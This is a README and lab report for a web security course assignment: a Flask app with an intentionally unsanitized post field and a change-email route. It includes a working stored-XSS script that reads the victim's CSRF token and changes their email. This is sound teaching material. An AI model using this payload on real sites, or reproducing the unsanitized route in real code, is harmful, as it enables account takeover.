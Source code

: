 # CSRF-Web-Security
Simple Flask application containing both attacker and vulnerable's website. Cross-Site Request Forgery assignment for Web Security course

## Run the app with the following commands
You can try to perform the attack using the script provided at the end of the readme.

### Put these lines in you hosts file
```text
127.0.0.1 www.attacker.com
127.0.0.1 www.vulnerable.com
```
### Run these commands into your app's folder
```bash
$ export FLASK_APP=app.py; flask run
```
And search for http://www.vulnerable.com:5000 in your browser (log in with credentials provided in user.py file)

# CSRF and XSS Vulnerability Lab Report

## Introduction:
CSRF attacks aim to induce the victim to perform involuntary actions through which the attacker can modify or delete private information, or gain control of the target account.

## Attack Description:
The chosen challenge is the last one proposed, regarding the use of an XSS vulnerability to implement a CSRF attack with the purpose of modifying the email of every user who visits the page containing the injected script.

In this case, the attack consists of injecting a script that makes a request to the **my-account/change-password** endpoint. The focal point is to retrieve the victim's CSRF token so that the request created by the attacker is accepted. To do this, the script needs to access the document body and access the csrf attribute, as will be further detailed in the section regarding the attack reproduction on our Flask application.

## Vulnerability in Flask Application:
To build the Flask application, we started from the application provided in the previous exercise and modified it to include the XSS vulnerability necessary to trigger the CSRF attack.

Firstly, we configured the vulnerable site to include `flask_wtf.csrf`, the library required to activate protection against CSRF attacks, which generates a new token for each request, making the ones already used obsolete.

```python
from flask_wtf.csrf import CSRFProtect

csrf = CSRFProtect()
csrf.init_app(app)
```

Additionally, we added a new route to allow users to change their email. This route retrieves the email field from the request body and assigns it to the user's email field.

```python
@vulnerable_blueprint.route("/change-email", methods=["POST"], host=VULNERABLE_DOMAIN)
def change_email():
    user = get_current_user()
    user.email = request.form.get('email');
    return user.email
```

The form for submitting the post includes a hidden input field, csrf_token, containing the CSRF token value to ensure the user's identity before the actual submission. No input sanitization is performed, introducing an XSS vulnerability that can be exploited to include tags, such as the script tag used in the actual attack, within the post body.

The attacker's script consists of the following steps:
1. It calls the `window.addEventListener('DOMContentLoaded')` function to execute the script once the HTML page is fully loaded in the client's browser.
2. Within the callback of this function, the CSRF attack is executed.
3. The CSRF token is retrieved from the DOM and stored in the `csrf` variable.
4. A `FormData` variable is created to create a form and fill it with the inputs that will be transmitted in the request body.
5. The following fields are added to the form:
   - `csrf_token`, required for the successful execution of the request.
   - the email chosen by the attacker.
6. An `XMLHttpRequest` variable is created and configured to make a `POST` request to the `/change-email` endpoint of the vulnerable site.
7. Finally, the request is sent.

```javascript
<script>
    window.addEventListener('DOMContentLoaded', function() {
        let csrf = document.getElementsByName("csrf_token")[0].value;
        let data = new FormData();
        data.append('csrf_token', csrf);
        data.append('email', 'lol@gmail.com');
        var xhttp = new XMLHttpRequest();
        xhttp.open("POST", "http://www.vulnerable.com:5000/change-email", false);
        xhttp.send(data);
    });
</script>
```
